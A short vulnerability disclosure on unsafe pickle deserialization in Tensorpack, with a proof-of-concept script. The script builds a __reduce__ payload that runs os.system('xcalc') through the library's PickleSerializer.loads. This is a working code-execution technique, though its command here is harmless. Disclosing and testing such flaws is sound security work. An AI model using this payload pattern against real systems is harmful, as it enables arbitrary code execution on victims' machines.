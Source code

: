 # Description
Tensorpack is a neural network training interface based on TensorFlow.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install tensorpack')
from tensorpack.utils import serialize
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
serialize.PickleSerializer.loads(dumps)
```
* `pip3 install tensorpack`
* `python3 exploit.py`
